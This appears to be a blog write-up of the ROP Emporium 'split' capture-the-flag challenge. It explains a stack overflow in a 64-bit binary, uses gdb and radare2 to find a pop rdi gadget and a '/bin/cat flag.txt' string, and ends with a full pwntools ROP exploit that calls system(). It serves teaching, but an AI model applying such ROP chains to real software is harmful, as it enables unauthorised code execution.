 ```yaml
---
title: "Return-Oriented Programming - Split"
date: '2021-12-20'
tags: ['ropemporium','rop', 'pwn']
draft: false
summary: Combine elements from the ret2win challenge that have been split apart to beat this challenge. Learn how to use another tool whilst crafting a short ROP chain.
layout: PostLayout
canonicalUrl:
---
```


## Introduction
Challenge Description

>The elements that allowed you to complete ret2win are still present, they've just been split apart.
>Find them and recombine them using a short ROP chain

The goal of this challenge is to understand how function arguments are passed in 64bit machine when doing return oriented programming. The target binary can be downloaded from the authors website [ropemporium](https://ropemporium.com). 

First we check the binary protections enabled on the downloaded. Only **NX** (Not executable) is enabled on the device according to `checksec` binary utility as shown in the image below.

```bash
vx@archie:split$ checksec --file=split
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

From analysis of binary we use gdb debugger in order to analyze the functions present in the binary in order to understand the logic. We disassemble **pwnme** function as in the image below.The function looks familiar as for the ret2win function.
```nasm
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:	push   rbp
   0x00000000004006e9 <+1>:	mov    rbp,rsp
   0x00000000004006ec <+4>:	sub    rsp,0x20
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:	mov    edi,0x400810
   0x000000000040070b <+35>:	call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:	mov    edi,0x40083c
   0x0000000000400715 <+45>:	mov    eax,0x0
   0x000000000040071a <+50>:	call   0x400570 <printf@plt>
   0x000000000040071f <+55>:	lea    rax,[rbp-0x20]
   0x0000000000400723 <+59>:	mov    edx,0x60
   0x0000000000400728 <+64>:	mov    rsi,rax
   0x000000000040072b <+67>:	mov    edi,0x0
   0x0000000000400730 <+72>:	call   0x400590 <read@plt>
   0x0000000000400735 <+77>:	mov    edi,0x40083f
   0x000000000040073a <+82>:	call   0x400550 <puts@plt>
   0x000000000040073f <+87>:	nop
   0x0000000000400740 <+88>:	leave  
   0x0000000000400741 <+89>:	ret    
End of assembler dump.
(gdb) 
```
From the above code, we are filling  a buffer of size 0x20(32bytes) with a constant byte of zero. **memset** is used to overwrite any values that is present in the memory area specified. The memory region we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32bytes from the boundary of base pointer address in the stack.

![](/static/images/ropemporium/stack.png)

Next function is **read** function, which reads for user input from the standard input file descriptor and stores in the specified buffer. From disassembled code, we are reading **0x60** bytes from the user input and storing it in our buffer. This means we are reading more than what the buffer can hold therefore leading to a stack buffer overflow.

```c
ssize_t read(int fd, void *buf, size_t count);
```
For this challenge we don`t have a ret2win function which we are to return to. From the disassembly of the binary we have an interesting function called **usefulFunction**. The usefulFunction, does listing of the files in the directory when called by the function.

```nasm
(gdb) disas usefulFunction 
Dump of assembler code for function usefulFunction:
   0x0000000000400742 <+0>:	push   rbp
   0x0000000000400743 <+1>:	mov    rbp,rsp
   0x0000000000400746 <+4>:	mov    edi,0x40084a
   0x000000000040074b <+9>:	call   0x400560 <system@plt>
   0x0000000000400750 <+14>:	nop
   0x0000000000400751 <+15>:	pop    rbp
   0x0000000000400752 <+16>:	ret    
End of assembler dump.
(gdb) x/s 0x40084a
0x40084a:	"/bin/ls"
(gdb) 
```
Goal is to pass a different string to the system function instead of  **"/bin/ls"**

From the authors hint, we can look for useful hints in the binary using either radare2 or rizin. Both tools perform the same function, it is a matter of choice.

>Now that you've gathered the elements of your exploit you can start to piece them together, you want to call system() with the **"/bin/cat flag.txt"** string as the only argument. You'll also have to start dealing with the differences between the various architectures' calling conventions. 

Opening the binary in radare2, we can use **iz** command to look for strings. The goal is to read the flag from the system.

```nasm
[0x004005b0]> iz
nth paddr      vaddr      len size section type  string                                      
---------------------------------------------------------------------------------------------
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt

```

We have an important string **"/bin/cat flag.txt"** which will enable us to complete our goal. Now we need pass the string to system function as follows **system('/bin/cat flag.txt')**.

For building ropchain, we need to understand the calling conventions of **AMD64 ABI**.The calling convention passes the arguments to the registers in the following order **RDI, RSI, RDX, RCX, R8 and R9**.

Because the system function receives one argument, we need to look for one gadgets that we control the **rdi** address.

**What are gadgets?**
Gadgets are sequence of instructions the end with ret instruction. Because we want to load a value into rdi register, we look for a pop **pop rdi; ret** instruction in order to pass an argument to the system function.

For searching gadget in radare2/rizin, use **/R** command as shown in the image below.

![](/static/images/ropemporium/split_poprdi.png)
Now we need to chain ropchain exploit as shown in the image below.

![ropchain](/static/images/ropemporium/popgadget.png)

The goal is to overwrite the return address with the address of **"pop rdi, ret "** and then call system function. we need to fill the buffer memory with 32bytes, 8 bytes more to overwrite the rbp address and  8 bytes teo overwrite the return address with pop rdi address.

## Exploit
Full exploit of split challenge is;

```python
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process("./split")

system_addr = pwn.p64(0x400560)   #address of system 
pop_rdi_ret = pwn.p64(0x004007c3)  # pop rdi; ret gadget 
bin_cat_addr = pwn.p64(0x00601060)  #bin cat flag.txt address 

payload = b"A" * 32  #fill the buffer 
payload += b"B" *8   # overwrite  rbp
payload += pop_rdi_ret # pop rdi gadget 
payload += bin_cat_addr # argument passed to the system function
payload += system_addr   #call system 

io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Running the above code we get a flag.

![](/static/images/ropemporium/split_flag.png)

>**To avoid the segmentation fault of the above, we can overwrite the rbp address with exit function address in order to exit without segfault.**
